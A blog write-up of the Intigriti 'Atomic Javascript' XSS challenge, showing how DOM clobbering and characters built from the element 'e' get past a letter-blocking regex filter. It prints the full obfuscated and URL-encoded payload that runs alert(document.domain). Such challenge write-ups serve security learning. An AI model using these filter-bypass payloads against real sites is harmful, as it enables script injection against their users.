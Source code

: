```yaml
---
layout: single
title: Atomic Javascript
date: 2021-05-31
classes: wide
tags:
  - Intigriti
  - Challenge
  - GrumpingouT
---
```


How to execute arbitrary code using only the atomic parts of javascript?

![share](/assets/images/intigriti/2021/05/share.jpg)

## Overview

The challenge itself is just a simple captcha program. The captcha contains a form which follows a certain naming pattern where each element has an ID of a single letter set alphabetically.

After a brief analysis, this small part catches my attention.

![vulnerable code](/assets/images/intigriti/2021/05/vulnerable-code.png)

It seems that this piece of code is most likely to be vulnerable. All I need to do is bypass the regular expression `/[a-df-z<>()!\\='"]/gi` to evaluate my code. Simple right? Well, not exactly...

An important note is that I cannot use any letters except “e”. This is tough since we need letters to do our `alert(document.domain)` payload.

However, this comment is is hinting something.

```
Allow letter 'e' because: https://en.wikipedia.org/wiki/E_(mathematical_constant)
```

## Solution

I went into the right direction and tried doing DOM clobbering? We have an element with the ID of ‘e’ which is allowed in the regular expression filter and could be used to build more characters following a well known technique called "Atomic XSS".

![dom clobbering](/assets/images/intigriti/2021/05/dom-clobbering.png)

Unfortunately, the program only evaluates once, which is enough to only decode the payload but not to execute it. I need to find a way to evaluate the code above after it has been decoded. I thought of one solution which is:

```
[]["flat"]["constructor"]("payload goes here")()
```

This proved quite hard since I need at least parenthesis to do this. Using grave accent symbols instead of parenthesis seems to work but not really.

```
[]["flat"]["constructor"]`payload goes here```
```

The problem here is that the payload shouldn’t be a string in order for this to work.

![string evaluation issue](/assets/images/intigriti/2021/05/string-evaluation-issue.png)

This was a major problem since most techniques required at least an equals sign to solve such a problem..

After a few hours messing around inside the devtools console, I managed to get “lucky”. I found two valid methods that solve this problem: `call` and `apply`

![string evaluation solution](/assets/images/intigriti/2021/05/string-evaluation-solution.png)

Now I have a few more literals to encode to get this working.

![preparing-payload](/assets/images/intigriti/2021/05/preparing-payload.png)

The full payload looks like this:

```
[][[e[0]+[]][0][4] + [e+[]][0][21] + [e*e+[]][0][1] + [e+[]][0][6]][[e+[]][0][5] + [e+[]][0][1] + [e+[]][0][25] + [e+[]][0][18] + [e+[]][0][6] + [e+[]][0][16] + [e[0]+[]][0][0] + [e+[]][0][5] + [e+[]][0][6] + [e+[]][0][1] + [e+[]][0][16]][[e+[]][0][5] + [e*e+[]][0][1] + [e+[]][0][21] + [e+[]][0][21]]`${[[e*e+[]][0][1] + [e+[]][0][21] + [e+[]][0][22] + [e+[]][0][16] + [e+[]][0][26] + [[][ [e[0]+[]][0][4] + [e+[]][0][21] + [e*e+[]][0][1] + [e+[]][0][26]]+[]][0][13] + [e[0]+[]][0][2] + [e+[]][0][1] + [e+[]][0][5] + [e[0]+[]][0][0] + [e+[]][0][23] + [e[0]+[]][0][3] + [e[0]+[]][0][1] + [e+[]][0][26] + [0.1+[]][0][1] + [e[0]+[]][0][2] + [e+[]][0][1] + [e+[]][0][23] + [e*e+[]][0][1] + [e[0]+[]][0][5] + [e[0]+[]][0][1] + [[][ [e[0]+[]][0][4] + [e+[]][0][21] + [e*e+[]][0][1] + [e+[]][0][26]]+[]][0][14]]}```
```

Lastly I need to remove the spaces and change the plus signs %2B in order to not mess up my payload when passed as a URL.

```
[][[e[0]%2Be][0][4]%2B[e%2Be][0][21]%2B[e*e%2Be][0][1]%2B[e%2Be][0][6]][[e%2Be][0][5]%2B[e%2Be][0][1]%2B[e%2Be][0][25]%2B[e%2Be][0][18]%2B[e%2Be][0][6]%2B[e%2Be][0][16]%2B[e[0]%2Be][0][0]%2B[e%2Be][0][5]%2B[e%2Be][0][6]%2B[e%2Be][0][1]%2B[e%2Be][0][16]][[e%2Be][0][5]%2B[e*e%2Be][0][1]%2B[e%2Be][0][21]%2B[e%2Be][0][21]]`${[[e*e%2Be][0][1]%2B[e%2Be][0][21]%2B[e%2Be][0][22]%2B[e%2Be][0][16]%2B[e%2Be][0][26]%2B[[][[e[0]%2Be][0][4]%2B[e%2Be][0][21]%2B[e*e%2Be][0][1]%2B[e%2Be][0][26]]%2Be][0][13]%2B[e[0]%2Be][0][2]%2B[e%2Be][0][1]%2B[e%2Be][0][5]%2B[e[0]%2Be][0][0]%2B[e%2Be][0][23]%2B[e[0]%2Be][0][3]%2B[e[0]%2Be][0][1]%2B[e%2Be][0][26]%2B[0.1%2Be][0][1]%2B[e[0]%2Be][0][2]%2B[e%2Be][0][1]%2B[e%2Be][0][23]%2B[e*e%2Be][0][1]%2B[e[0]%2Be][0][5]%2B[e[0]%2Be][0][1]%2B[[][[e[0]%2Be][0][4]%2B[e%2Be][0][21]%2B[e*e%2Be][0][1]%2B[e%2Be][0][26]]%2Be][0][14]]}```
```

Now I can paste the payload as a value to a query string parameter, for example `captcha.php?c=payload`.

Upon entering the URL, all I need is to click the submit button and the payload gets executed.

![alert](/assets/images/intigriti/2021/05/alert.png)

Thanks for reading!

